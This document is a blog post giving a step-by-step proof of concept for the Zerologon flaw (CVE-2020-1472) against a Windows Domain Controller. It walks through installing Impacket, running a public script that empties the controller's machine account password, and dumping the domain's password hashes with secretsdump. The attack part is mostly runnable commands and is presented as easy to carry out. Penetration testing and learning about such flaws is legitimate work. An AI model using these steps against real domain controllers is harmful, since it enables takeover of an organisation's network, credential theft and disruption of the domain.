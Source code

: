 ```yaml
---
title: CVE-2020-1472 Zerologon Exploit POC
description: Yet another Zerologon Exploit POC. We will be exploiting a vulnerable Domain Controller.
author: hum4ng0d
date: 2020-11-11
categories: [Exploit, PoC]
tags: [windows server, zerologon, exploit, impacket]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/zerologon_poc/zlo.png
  alt: Zerologon
---
```


Yet another Zerologon Exploit POC. We will be exploiting a vulnerable Domain Controller.

## Impacket 0.9.22

At the time of this writing, we need to use an updated version of Impacket 0.9.22 or newer for this exploit to work. The current stable version of Impaket is 0.9.21.

![Current impacket stable version](/assets/img/zerologon_poc/impacket0921.png)

But before you install a new Impacket, you might want to create a vm snapshot before things go completely wrong. Alternatively, you can install Impacket in a docker and run as well. You can learn more about it in this [post](https://blog.ropnop.com/docker-for-pentesters/#example-3---impacket "Docker - Impacket"). But for the sake of this post, we will just install on our VM.

After creating a VM snapshot, remove any existing Impacket installation with the following command:

```

> apt remove --purge impacket-scripts python3-impacket

```

Here is the link to the Impacket newer version: [Impacket Link](https://github.com/SecureAuthCorp/impacket/tree/b867b21de5fcfd48686a04487e1ef83c2d1b5e47 "Impacket")

![Impacket 0.9.22](/assets/img/zerologon_poc/impacket0922.png)

```

> git clone https://github.com/SecureAuthCorp/impacket.git

> cd impacket

> pip install .

```


## Exploitaion

We will be using a script from [Risksense](https://github.com/risksense/zerologon "risksense/zerologon")

```

> git clone https://github.com/risksense/zerologon.git

> cd zerologon

```

And now run the script against the Domain Controller:

```python

> python3 set_empty_pw.py <DC-NAME> <ip-address>

```

![running set_empty_pw.py](/assets/img/zerologon_poc/set-set_empty_pw.png)

If the script ran successfully, there should be no password for the DC after that.


## Dumping hashes from DC

```python

> secretsdump.py -just-dc <DC-NAME>\$@10.10.10.1

```

![Hash dumping with secretdump.py](/assets/img/zerologon_poc/secretsdump.png)

And that's it. It's very easy to exploit. Hope you guys enjoyed it.

If you want to learn more about this exploit, Heath (TCM) has done a great video explaining about it. Here is the video: [ZeroLogon Exploit - Abusing CVE-2020-1472 (Way Too Easy!)](https://www.youtube.com/watch?v=6xMGsdD-ArI&ab_channel=TheCyberMentor "ZeroLogon Exploit - Abusing CVE-2020-1472 (Way Too Easy!)")
